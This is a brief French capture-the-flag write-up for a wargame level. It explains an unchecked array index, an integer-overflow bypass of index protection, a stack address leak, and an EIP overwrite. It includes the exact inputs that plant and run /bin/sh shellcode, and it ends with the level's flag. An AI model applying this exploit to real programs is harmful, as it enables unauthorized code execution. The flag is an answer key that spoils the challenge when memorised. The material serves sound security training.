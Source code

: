 ## GET Flag

Ce programme stoque des nombres dans un tableau dont certains index sont protégés (index % 3 == 0).
La première erreur de ce programme est de ne pas limiter l'index entré par l'utilisateur, il est donc possible d'entrer des nombres supérieur à 100 ou inféreur à 0.

De plus le décalage binaire effectué sur l'index permet de mettre des nombres divisibles par 3 (114 ~= 2147483762).
Malgré la randomisation de la stack, il est possible de lire l'adresse ou sont stoqués les nombres (-9).
Il est aussi possible de calculer l'emplacement de l'EIP (114).

Enfin malgré la réinitialisation de l'environnement il est possible d'injecter un shellcode via le `storage`.
En quittant le programme le shellcode sera executé.
 
```
storage[0 == 2147483648] = 0x6850c031 == 1750122545
storage[1] = 0x68732f2f == 1752379183
storage[2] = 0x69622f68 == 1768042344
sorage[3 == 2147483651] = 0x31e3896e = 836995438
storage[4] = 0x6aca89c9 = 1791658441
storage[5] = 0x80cd580b = 2160941067
storage[114 == 2147483762] = {read -9}
quit
```

### Flag

```
level08
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
